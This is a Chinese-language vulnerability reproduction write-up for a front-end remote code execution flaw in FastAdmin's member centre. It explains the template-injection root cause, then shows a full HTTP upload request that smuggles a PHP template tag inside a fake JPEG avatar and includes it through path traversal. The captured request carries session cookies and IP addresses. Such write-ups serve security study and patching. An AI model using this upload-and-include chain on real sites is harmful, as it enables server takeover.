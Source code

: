FastAdmin 会员中心前台getshell
==============================

一、漏洞简介
------------

### 利用条件

`/application/config.php` 文件中：

    //是否开启前台会员中心
    'usercenter'            => true,

即需要开启会员中心功能

二、漏洞影响
------------

V1.0.0.20200506\_beta

三、复现过程
------------

### 漏洞分析

`/application/index/User.php`文件

第58-67行：

     public function _empty($name)
        {    
            $data = Hook::listen("user_request_empty", $name);
                foreach ($data as $index => $datum) {
                $this->view->assign($datum);
                }
        return $this->view->fetch($name);
    }
    user_request_empty`为开发者预留的钩子可以忽视不看，主要看` return $this->view->fetch($name);

此方法中的`$name`参数可控，并且将`$name`的值传入到了`fecth()`函数中。

`fetch()`为thinkphp的解析模板函数，其返回模板文件渲染后的内容

`fetch()`函数的关键内容如下：

      public function fetch($template, $data = [], $config = [])
        {
            if ('' == pathinfo($template, PATHINFO_EXTENSION)) {
                // 获取模板文件名
                $template = $this->parseTemplate($template);
            }
            // 模板不存在 抛出异常
            if (!is_file($template)) {
                throw new TemplateNotFoundException('template not exists:' . $template, $template);
            }
            // 记录视图信息
            App::$debug && Log::record('[ VIEW ] ' . $template . ' [ ' . var_export(array_keys($data), true) . ' ]', 'info');
            $this->template->fetch($template, $data, $config);
        }

继续调用栈可以看下其实这个fetch()函数调用的是内置模板引擎的fetch方法，
这个方法实际上就是将要输出的页面内容赋值给一个变量，为了方便，thinkphp在对模板渲染的过程中，添加了php标签功能，使得其可以解析php代码。

总之一句话，这个漏洞其实就是由于对传入变量过滤不严导致的模板引擎注入漏洞，只要控制了传入模板的文件，就可以利用模板本身的渲染功能，实现包含漏洞getshell

另外需要注意的是，当验证传入的模板是否是文件时，使用的`is_file()`函数，这个函数在Linux下和windows下的判断会有所不同，具体如下：

1、在linux下利用`is_file()`来判断类似于`/****/../../../../etc/passwd`文件时，如果`****`是不存在的目录，则会返回false，在windows下
，这个目录存在与否，均返回true，如下图所示：

![1.png](./.resource/FastAdmin会员中心前台getshell/media/rId26.png)

![2.png](./.resource/FastAdmin会员中心前台getshell/media/rId27.png)

2、在linux下，`is_file()`函数判可用于判断符号链接

3、在linux下，`is_file`函数会受到权限的影响，当前用户权限不足或父目录没有设置+x权限时，`is_file()`会返回false

4、windows系统里面`/`和`\` 都可以使用，但是在linux下只能使用`/`
来分隔路径，因此这会导致`is_file()`在不同系统下的返回结果不一致

![3.png](./.resource/FastAdmin会员中心前台getshell/media/rId28.png)

![4.png](./.resource/FastAdmin会员中心前台getshell/media/rId29.png)

5、`is_file()`判断文件时，如果文件大小超过2\^32时，会判断失败

### 漏洞复现

通过前文可知，这个漏洞的利用点在`_empty()`函数，需要注意的是，在官方文档中通常`_empty()`方法是用来判断一个方法是否存在，如果不存在，则进入该函数。而这里是开发者自定义的方法，因此直接传入`_empty`方法，调用name参数即可。

利用过程如下：

在前台的会员中心，个人资料处，上传修改头像：

![5.png](./.resource/FastAdmin会员中心前台getshell/media/rId31.png)

抓包后修改图片数据（满足图片头格式即可）：

    POST /index/ajax/upload HTTP/1.1
    Host:www.0-sec.org:8088
    Content-Length: 596
    Origin: http://122.114.216.233
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Accept: */*
    Referer: http://103.40.247.24/index/user/profile.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1600651554; PHPSESSID=e42uhkmhirv29cpd82qbubigd7; uid=3; token=251be91c-040b-4231-b955-76c3ecfaf4f4; Hm_lpvt_f8d0a8c400404989e195270b0bbf060a=1600651809
    Connection: close

    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="name"

    400x400a0a0.jpg
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="file"; filename="400x400a0a0.jpg"
    Content-Type: image/jpeg

    ÿØÿà8Photoshop 3.08BIM8BIM%"
    {php}phpinfo();{/php}
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq--

![6.png](./.resource/FastAdmin会员中心前台getshell/media/rId32.png)

记录下路径后，成功getshell

![7.png](./.resource/FastAdmin会员中心前台getshell/media/rId33.png)

在Linux下，通过这种方法会失效，因为在`/public`路径下不存在`user`目录，由前文中的知识点可以知道，当不存在这个目录的时候，无论怎么跳转目录，`is_file()`函数返回的结果始终未false，因此无法利用该漏洞，如下图所示：

![8.png](./.resource/FastAdmin会员中心前台getshell/media/rId34.png)

当我们在`/public`目录下创建文件夹`/user`，在利用，即可成功：

![9.png](./.resource/FastAdmin会员中心前台getshell/media/rId35.png)

参考链接
--------

> https://www.cnpanda.net/codeaudit/777.html
